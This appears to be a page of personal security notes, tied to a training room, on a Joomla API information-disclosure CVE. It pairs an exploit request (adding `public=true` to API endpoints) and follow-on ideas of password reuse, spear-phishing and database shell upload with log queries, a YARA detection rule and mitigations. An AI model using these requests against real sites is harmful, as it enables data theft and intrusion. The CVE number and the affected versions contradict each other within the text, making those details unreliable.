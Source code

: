 # CVE-2023-23572


[[Joomla]] is open-source Content Management System (CMS) and CVE-2023-23572 allowed unauthorized users to fetch information from various web endpoints without prior authentication and can lead to RCE.

Modifying the GET variable `public` value from `false` to `true` on API endpoints ([[API-Hacking]]). [THM Joomify Room](https://tryhackme.com/r/room/joomify) states: *"The API calls are not usually enabled for the general public"*, so why is there variable in production. For the vulnerable version [4.1.0 Joomla Download link](https://downloads.joomla.org/cms/joomla4/4-1-0)

Exploit, consider using [[JQ]] for parsing
```bash
# Never trust inferencing from software... localhost != 127.0.0.1
curl -v -X GET https://$joomla.$vuln/api/$urlthatallowforpublicparametre?public=true

# For customisation consider fuzzing
/api/index.php/v1/config/application?public=true
```
[docs.joomla.org - Joomla Core APIs](https://docs.joomla.org/J4.x:Joomla_Core_APIs)

It is an information leak vulnerability; consider:
- Other services like databases
- Password re-use from admin panel
- [[Spear-Phishing]] with private information
- Connecting to the database and uploading the shell leads to `remote code execution`

This exploit may be very weird...
![1920](exploitisweird-cve-2023-23572.png)
#### Protection and Mitigation

Logs containing `?public=true`,
`tail /var/log/apache2/access.log | grep '?public=true'`
OpenSearch query
`method:GET AND path:("*public=true*") AND path:"*api/index.php*"`

[[YARA]] rule with `yara -r -m CVE-2023-23752.yar /var/log/apache2/`
```yaml
rule CVE_2023_23752_Detection
{
    meta:
        description = "Rule to detect CVE-2023-23752 exploitation attempt"
        author = "Joomify"

    strings:
       $http_method = "GET"
        $api = "api/index.php" nocase
        $http_uri = {70 75 62 6C 69 63 3D 74 72 75 65}  // public=true
    condition:
        all of them
}
```

Mitigation:
- Update the Joomla version. Make sure the Joomla version is not 4.0.0 through 4.0.7.
- Update the alerts in the detection tools so they are notified as soon as an exploitation attempt is made.
- Add a reverse proxy or a WAF in front of the Joomla website and block requests to the API endpoint that tries to change the public.

## References

[THM Joomify Room](https://tryhackme.com/r/room/joomify) 
[4.1.0 Joomla Download link](https://downloads.joomla.org/cms/joomla4/4-1-0)
[docs.joomla.org - Joomla Core APIs](https://docs.joomla.org/J4.x:Joomla_Core_APIs)